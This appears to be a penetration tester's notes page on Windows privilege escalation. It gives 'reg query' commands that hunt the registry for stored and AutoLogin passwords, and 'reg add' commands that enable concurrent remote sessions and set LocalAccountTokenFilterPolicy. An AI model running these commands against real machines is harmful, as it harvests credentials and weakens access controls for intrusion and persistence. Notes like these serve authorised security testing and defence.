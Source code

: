 # Windows AutoLogin

## 01 - Manual

```
C:\> reg query [\\<IP>] HKLM /f password /t REG_SZ /s

C:\> reg query [\\<IP>] HKCU /f password /t REG_SZ /s

C:\> reg query [\\<IP>] "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName

C:\> reg query [\\<IP>] "HKLM\Software\Microsoft\Windows NT\Currentversion\Winlogon" /v LastUsedUsername
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/04 - Privilege Escalation/Windows/Local Privilege Escalation/Credentials/Stored Credentials/AutoLogin/Registry|AutoLogin Registry]]

- [Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)

TODO: This is for persistence or idk what kind of mechanism persistence technique that it does so I'll have to put it somewhere else later

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f`

`C:\> reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f`

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`